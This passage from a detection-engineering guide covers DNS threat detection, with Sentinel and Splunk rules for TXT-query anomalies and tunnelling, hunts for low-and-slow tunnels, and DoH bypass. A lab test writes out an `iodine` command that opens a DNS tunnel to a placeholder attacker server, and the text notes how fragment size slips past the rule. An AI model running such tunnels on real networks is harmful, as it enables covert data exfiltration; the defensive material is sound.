**[DETECTION ENGINEER]** A workstation issuing TXT queries is unusual on its own: mail infrastructure looks up SPF/DKIM TXT records as part of normal mail-flow validation, and a handful of legitimate client-side use cases exist (certain licensing and configuration-discovery mechanisms use TXT lookups), but a general-purpose endpoint has little routine reason to issue frequent, repeated TXT queries against a domain with no mail-relevant context.

<a id="det-15-04"></a>**DET-15-04 — Repeated TXT queries from a non-mail host against a single apex.** The following targets Microsoft Sentinel and the same `DnsEvents` table as DET-15-01, with the same schema caveat.

CONCEPTUAL SAMPLE — illustrative Sentinel KQL, excludes known mail-infrastructure hosts via an assumed watchlist.

```kql
DnsEvents
| where QueryType == "TXT"
| where ClientIP !in (KnownMailRelayIPs) // maintained watchlist — see False Positive Trap below
| summarize TxtQueryCount = count(), DistinctNames = dcount(Name) by ClientIP, bin(TimeGenerated, 15m)
| where TxtQueryCount >= 10
| order by TxtQueryCount desc
```

**MITRE:** T1071.004 (Application Layer Protocol: DNS).

> **False Positive Trap**
> Excluding "known mail infrastructure" only works if that watchlist stays current — a newly onboarded mail-security gateway, an endpoint running a local mail client that performs its own SPF validation, or a certificate-management tool that polls TXT records for ACME DNS-01 challenges will all trip this rule the day they're deployed and every day after, until someone adds them to the exclusion list. Review the watchlist on the same cadence as any other exception (per `TERMINOLOGY.md`'s Exception entry — named, justified, and reviewed on a real date), not as a one-time setup step.

> **Blind Spot**
> The `>= 10` per 15-minute-window cutoff is a hard floor: a source issuing nine TXT queries against the same apex every 15 minutes, indefinitely, never crosses it. This is the same low-and-slow evasion §9.3's hunt targets for subdomain fan-out, but no equivalent hunt exists here — treat sub-threshold TXT volume against a non-mail apex as an open coverage gap, not a solved one, until a hunt analogous to HUNT-15-01 has actually looked for it.

> **Engineering Reality**
> Same class of gap as DET-15-01's null `Name` and DET-15-02's null `query_apex`: if `ClientIP` is null or malformed on a subset of TXT-query events — a common symptom of a parser regression on one log-forwarder path — those events either group into their own empty-keyed bucket (producing an untriageable "ClientIP: (blank)" alert instead of a real source) or drop out of the `by ClientIP` aggregation entirely, depending on the platform's null-handling, silently undercounting `TxtQueryCount` for the real host responsible. This fails toward silence, not toward a loud error. Validate that `ClientIP` and `Name` are populated for TXT-query events specifically — not just for the DNS log in general — before trusting a quiet result from this rule.

> **Detection Test**
> **Setup:** A test host not present in `KnownMailRelayIPs`, pointed at a resolver whose query log feeds `DnsEvents`.
> **Action:** From the test host, issue 10 or more TXT queries against a single apex domain you control within one 15-minute window (`nslookup -type=TXT <domain>` in a loop is sufficient).
> **Expected result:** The test host's `ClientIP` appears with `TxtQueryCount >= 10` against that apex. As a negative control, add the test host to `KnownMailRelayIPs` and re-run — it should drop out of the results, confirming the exclusion path actually works rather than just existing in the query text.

Honestly, expect this rule's early false-positive rate to be dominated by watchlist gaps rather than genuine abuse: any not-yet-onboarded mail-security gateway, ACME-polling certificate tool, or licensing client will fire it every day until someone adds it to `KnownMailRelayIPs`, so the first two to three weeks of alert volume mostly measures watchlist completeness, not attacker activity.

## 8. Subdomain frequency and fan-out

**[CONCEPT]** Subdomain fan-out — many distinct subdomains queried under the same apex domain, from the same source, in a short window — is one of the stronger discriminating signals for both DGA behavior and DNS tunnelling, because it's harder to produce by accident than a single long or high-entropy label is. Figure 15.1 already showed the false-positive shape this signal has to account for: a single legitimate software update touched a chain of CDN and traffic-manager subdomains, all under different apex domains, in under a second. The discriminator that matters is fan-out *under one apex domain*, not fan-out across many — a client hitting six different apex domains during a page load is ordinary web traffic; a client hitting 60 distinct subdomains under one apex domain in the same window is not something a normal browsing session or update process produces.

**[THREAT HUNTER]**

> **Hunter's Note**
> When you're eyeballing a candidate fan-out pattern, sort the subdomain labels alphabetically before you look at them, not chronologically. A tunnel or DGA's labels are functionally random relative to each other, so an alphabetical sort does nothing to reveal structure — they stay scattered. A legitimate CDN's rotating edge-node names, session-token subdomains, or A/B-test bucket identifiers frequently share a common prefix or suffix pattern that becomes visually obvious once sorted, even when a chronological view (interleaved with other traffic) hides it. This is a 5-second gut check before you spend an hour writing a query.

## 9. DNS tunnelling

**[CONCEPT]** This part owns all DNS-tunnelling detection logic exclusively — Part 14 explicitly excludes it and defers to this section for both the mechanism and the detection.

### 9.1 The mechanism

**[CONCEPT]** DNS tunnelling encodes arbitrary data — a command, a file, a shell session — into the query and response of ordinary-looking DNS traffic, exploiting the fact that DNS is almost universally permitted to leave a network unfiltered on port 53, even in environments that tightly control every other outbound protocol. Data going *out* is typically encoded into the query name itself (a subdomain label, or a chain of them, holding base32/base64-encoded bytes); data coming *back* is typically carried in the response's resource-record data — a TXT record, a NULL record, or a chain of CNAME responses — since the DNS response payload can carry considerably more data than a query can.





**Figure 15.3 — DNS tunnelling data flow through a monitored recursive resolver (FIG-15-03).** *CONCEPTUAL.* Illustrates the general query/response mechanism a DNS tunnel uses to move data through a resolver that is otherwise doing nothing wrong — it is only relaying a query and forwarding a response, exactly as designed. This is a conceptual sequence sketch of expected tunnel behavior, not a capture from a real tunnel run in this book's lab.

The resolver in the middle of that exchange behaves correctly at every step — it isn't compromised, and it isn't misconfigured. The only thing distinguishing this traffic from a legitimate application using DNS for actual name resolution is the *pattern*: label content that looks encoded rather than name-like, a query rate and apex-domain concentration that doesn't match browsing behavior, and a query-type distribution skewed toward TXT/NULL/CNAME relative to the overwhelmingly A/AAAA-dominated mix a normal host produces.

### 9.2 A composite detection

**[DETECTION ENGINEER]** No single signal from §5 through §8 is sufficient alone — that's the whole lesson of this part's seeded Detection Autopsy. The actual detection combines label length, label entropy, subdomain fan-out under one apex, and query-type skew into one scored rule.





**Figure 15.4 — Composite DNS-tunnelling scoring decision flow (FIG-15-04).** *CONCEPTUAL.* Illustrates the layered-signal logic DET-15-05 implements below — no single branch alone reaches an alert, matching the Detection Autopsy in §1's point that a length-only rule is too shallow. This is a conceptual decision-flow sketch of the rule's own logic, not a capture of live traffic.

<a id="det-15-05"></a>**DET-15-05 — Composite DNS-tunnelling score: label shape, fan-out, and query-type skew.** The following targets Splunk and assumes a normalized DNS log with fields `query`, `label`, `label_entropy` (precomputed per §5.1's Engineering Reality note), `query_apex`, `query_type`, and `src_ip`.

CONCEPTUAL SAMPLE — illustrative SPL, untested against a real DNS-tunnelling tool run in this book's lab; treat thresholds as a starting point.

```spl
index=dns
| eval long_label=if(len(label) >= 40, 1, 0)
| eval high_entropy=if(label_entropy >= 3.6, 1, 0)
| where long_label=1 AND high_entropy=1
| bin _time span=15m
| stats dc(label) as distinct_labels,
        count(eval(match(query_type, "TXT|NULL|CNAME"))) as odd_type_count,
        count as total_count
      by src_ip, query_apex, _time
| eval odd_type_ratio=round(odd_type_count/total_count, 2)
| where distinct_labels >= 20
| eval confidence=case(
      odd_type_ratio >= 0.5, "high",
      odd_type_ratio < 0.5, "medium"
  )
| table _time, src_ip, query_apex, distinct_labels, odd_type_ratio, confidence
```

**MITRE:** T1071.004 (Application Layer Protocol: DNS), T1048.003 (Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol).

> **Detection Test**
> **Setup:** An isolated lab network segment, a domain you control delegated to a name server you control, and a lab-safe DNS tunnelling tool (`iodine` or `dnscat2` are common choices for this exact purpose) installed on both a client and server role.
> **Action:** `iodine -f attacker-server-ip tunnel.lab-domain.example` on the client, followed by generating sustained traffic over the resulting tunnel interface (a simple `ping` or file transfer across the tunnel is enough).
> **Expected result:** The DNS log for the client's source IP shows `distinct_labels` climbing past the 20-domain threshold within the 15-minute window, `query_type` skewed toward whichever record type the specific tool defaults to (commonly NULL or TXT for `iodine`, TXT for `dnscat2`), and `confidence` resolving to `high` once the query-type skew crosses the 50-percent mark in the query above.

> **Blind Spot**
> This detection is scoped to query *volume and shape* patterns, and it does not distinguish a genuine tunnel from an unusually chatty legitimate protocol that happens to produce a similar shape — some enterprise software-distribution and endpoint-management tools use DNS TXT records as an actual low-bandwidth control channel by design. Maintain an allowlist for known, reviewed cases exactly like the mail-relay exclusion in §7's False Positive Trap, and treat a first-time alert on any apex domain as worth a manual look before assuming either verdict. In the other direction, `long_label` and `high_entropy` are combined with `AND`, not scored independently, so a tunnel configured with a shorter fragment size — a setting both `iodine` and `dnscat2` expose — that keeps every label under 40 characters is filtered out before fan-out or query-type skew are ever evaluated, and never even reaches the "weak signal" branch in Figure 15.4. A composite score that keeps evaluating fan-out and query-type skew even when length or entropy fall short, rather than gating on them first, would catch this; the version above does not.

> **Engineering Reality**
> `label_entropy` here carries the same enrichment-dependency risk flagged for DET-15-03: it's a precomputed field written by an upstream job (per §5.1), not calculated inline. If that job stalls or falls behind, affected events read a null `label_entropy`, `high_entropy` evaluates to 0 rather than erroring, and those events never reach the `long_label=1 AND high_entropy=1` filter — this detection goes quiet in exactly the same silent way, and for the same reason, as DET-15-03. Monitor the enrichment job's own health independently; this rule's alert count won't tell you it stopped.

Honestly, the composite's false-positive rate is the one signal in this part most dependent on environment-specific tuning: in a fleet with no DNS-based management tooling and a PSL-aware apex extraction, expect this to be low-volume enough to alert on directly, but any CDN, edge-node, or licensing scheme that clears both the 40-character length bar and the 3.6-bits/character entropy bar at real fan-out will fire it — validate against your own environment's actual TXT/NULL/CNAME-heavy traffic before treating a clean first week as proof the rule works.

### 9.3 Hunting for tunnels below the alerting threshold

**[THREAT HUNTER]** DET-15-05's thresholds exist to keep the false-positive rate manageable, which means a patient attacker running a deliberately low-and-slow tunnel — a handful of queries per hour instead of per minute — can sit under every threshold in §9.2 indefinitely. That's a gap a Hunt (per `TERMINOLOGY.md` §2) is built to close, since a standing rule tuned low enough to catch it would also catch every ACME renewal and CDN update in the environment.

<a id="hunt-15-01"></a>**HUNT-15-01 — Low-and-slow subdomain fan-out below the standing alert threshold.**

- **Threat hypothesis:** A source in the environment is issuing a slow, sustained trickle of high-entropy subdomain queries under a small number of apex domains — too infrequent to cross DET-15-05's 15-minute window threshold, but abnormal relative to that source's own long-run querying behavior.
- **Scope:** Widen the aggregation window from DET-15-05's 15 minutes out to 24 hours or 7 days, and drop the distinct-subdomain-count threshold accordingly, accepting a much higher false-positive rate that a human hunter — not a standing alert queue — is expected to triage.
- **Pivot:** Cross-reference any apex domain surfaced this way against domain-registration age (a domain registered within the last 30 days is a materially different finding than one registered a decade ago), and check whether the same apex also shows up in any threat-intelligence feed the environment already subscribes to.
- **Disposition:** This hunt should end in either a new low-and-slow-specific detection candidate (if the pattern is real and repeatable) or a documented negative finding naming the coverage gap — "we hunted for sub-threshold tunnelling over the last quarter and found none, but the standing detection's window means anything under roughly two queries per minute per apex is structurally invisible to it" is a usable finding even with no confirmed tunnel.

**MITRE:** T1071.004 (Application Layer Protocol: DNS), T1048.003 (Exfiltration Over Unencrypted/Obfuscated Non-C2 Protocol).

## 10. Resolver context and the DoH/DoT blind spot

**[CONCEPT]** Every detection in §3 through §9 assumes the query actually reaches the resolver being monitored. That assumption breaks the moment a client resolves names through DNS-over-HTTPS or DNS-over-TLS to an external resolver instead — traffic that, from the local network's perspective, is indistinguishable from ordinary encrypted HTTPS or TLS to a cloud provider IP, because that's structurally what it is. Modern browsers increasingly enable DoH by default to a small set of well-known providers, which means this isn't purely an attacker-evasion scenario — it's routine, and it happens on infrastructure this part's detections have no visibility into at all.

**[THREAT HUNTER]**

<a id="hunt-15-02"></a>**HUNT-15-02 — Resolver-bypass discovery: who isn't using the monitored resolver.**

- **Threat hypothesis:** A meaningful number of hosts in the environment are resolving names through a path other than the monitored recursive resolver — via DoH, DoT, or a hardcoded alternate resolver — meaning every detection in this part is structurally blind to whatever those hosts query.
- **Scope:** Correlate DHCP/network-inventory data (which hosts exist and are active) against the monitored resolver's own query log (which hosts are actually using it), and separately look at outbound firewall/proxy telemetry for direct UDP/53 or DoH-typical HTTPS traffic (port 443 to known public DoH endpoints) that bypasses the monitored resolver entirely.
- **Pivot:** Any host present in network inventory but absent, or present at a far lower query volume than its peer group, from the monitored resolver's log is a candidate — cross-reference against known DoH-enabled browser defaults before assuming malicious intent, since this is at least as often a benign default-configuration finding as an attacker-evasion one.
- **Disposition:** Ends in either a network-policy change (block or redirect DoH/DoT at the firewall to force resolution through the monitored path, a control decision Part 14's network layer and the organization's policy owners jointly own) or a documented, named visibility gap — the specific hosts and the specific bypass mechanism — filed as Visibility Debt (per `TERMINOLOGY.md` §5) rather than left unstated.

**MITRE:** T1071.004 (Application Layer Protocol: DNS).

> **SOC Management View**
> DNS telemetry is some of the cheapest, highest-signal-density data a program can retain — a full DNS query log for even a large fleet is a fraction of the volume of endpoint process-creation telemetry, and it sees reconnaissance, C2 setup, and exfiltration attempts that never touch a monitored endpoint at all. The DoH/DoT gap above is a policy conversation, not a tuning problem: deciding whether to block DoH/DoT outbound (breaking some legitimate privacy-focused user tooling) or accept the resulting blind spot is a risk-acceptance decision for whoever owns network egress policy, and it should be made explicitly and revisited on a schedule — not left as a silent default that nobody chose on purpose.

## 11. Closing synthesis

**[CONCEPT]** No single signal in this part — label length, entropy, NXDOMAIN volume, subdomain fan-out, or query-type skew — is trustworthy alone, and that's the throughline from the Detection Autopsy in §1 through the composite score in §9.2. Rare/first-seen domains (§3) and NXDOMAIN patterns (§4) are best treated as enrichment feeding a risk score, not standalone alerts, because their individual false-positive rate is too high to alert on directly. Entropy (§5) and subdomain fan-out (§8) are the two signals that actually discriminate encoded/algorithmic traffic from natural-language hostnames and CDN churn, and they only do that reliably in combination with each other and with query-type skew, which is exactly what DET-15-05 implements. Where this part's detections go dark — DoH/DoT bypass, chief among them — that gap is a named finding for HUNT-15-02 and a policy decision for whoever owns network egress, not a silent failure this part's logic can quietly absorb.
